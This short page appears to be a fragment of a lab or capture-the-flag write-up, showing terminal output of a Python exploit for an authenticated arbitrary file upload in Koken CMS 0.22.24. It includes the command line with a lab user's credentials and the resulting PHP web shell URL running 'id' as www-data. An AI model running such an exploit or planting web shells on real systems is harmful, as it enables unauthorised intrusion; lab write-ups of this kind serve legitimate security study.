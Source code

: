You're welcome.  

```plain
$ python3 koken_exploit.py http://192.168.56.18:18888/ angela@dundermifflin.com Crinklepuss                                   
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated) 
-- devloop.users.sf.net 2022 -- 
Successfully authenticated as Angela Martin 
Enjoy your shell at http://192.168.56.18:18888//storage/originals/a6/49/slrejsflxgxopplfbcfp.php?cmd=id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


*Published January 27 2022 at 23 42*